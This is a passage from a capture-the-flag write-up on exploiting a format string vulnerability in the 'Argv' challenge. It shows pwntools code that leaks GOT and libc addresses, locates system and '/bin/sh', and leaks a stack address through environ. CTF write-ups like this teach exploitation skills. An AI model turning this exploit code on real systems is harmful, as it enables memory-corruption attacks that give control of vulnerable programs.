 With a confirmed format string vulnerability, we can find the injection point as follows
![](/images/ImaginaryCTF_-_Argv/Pasted_20241110210120.png)
From the above results, the injection point is at `8`


### Leaking Addresses
With the format string vulnerability, we can:
* Print the got addresses of functions like `gets` and `printf`
* Calculate the libc base address
* Calculate the address of functions and strings we may need later, e.g. `system` and `/bin/sh`
* We also need to find a way to leak stack addresses, for this we may also need the address of `libc.sym.environ`

> There is a symbol `environ` in libc, whose value is the same as the third argument of `main` function, `char **envp`. 


Printing the got address of `gets` is as easy as follows
```python
print(f"[*] Stage 1: Leak libc addresses")
payload=b"A" * (360) + p64(elf.got.gets)
target.sendline(payload)

# Parse the leaked address and calculate libc addresses
gets_leak=int((u64(target.recv(0x8).ljust(8,b"\x00")))) 
libc.address = gets_leak - libc.sym['gets']
system=libc.symbols['system']
puts=libc.symbols['puts']
exit_fn=libc.symbols['exit']
binsh=next(libc.search(b'/bin/sh\x00'))
environ=libc.sym.environ


print("[+] Leaked gets got address: " + str(hex(gets_leak)))
print("[+] Libc_addr base address at : " + str(hex(libc.address)))
print("[+] Found system at : " + str(hex(system)))
print("[+] Found puts at : " + str(hex(puts)))
print("[+] Found exit_fn at : " + str(hex(exit_fn)))
print("[+] Found shell at : " + str(hex(binsh)))
print("[+] Found environ at : " + str(hex(environ)))
```

![](/images/ImaginaryCTF_-_Argv/Pasted_20241110211150.png)




We can leak a stack address just like we leaked the `gets` got address, this time using the `environ` address, and we will receive a stack address. Using this address, we will be able to calculate where our buffer starts in the stack etc.
```python
.....SNIP.......

print(f"\n[*] Stage 2: Leak stack addresses")
payload=b"A" * (360) + p64(environ)
target.sendline(payload)

stack_leak=int((u64(target.recv(0x8).ljust(8,b"\x00"))))
buffer_start=stack_leak - 0x178 # Distance from the leaked addr to the start of our buffer

print("[+] Leaked stack address : " + str(hex(stack_leak)))
print("[+] Buffer starts at : " + str(hex(buffer_start)))

```
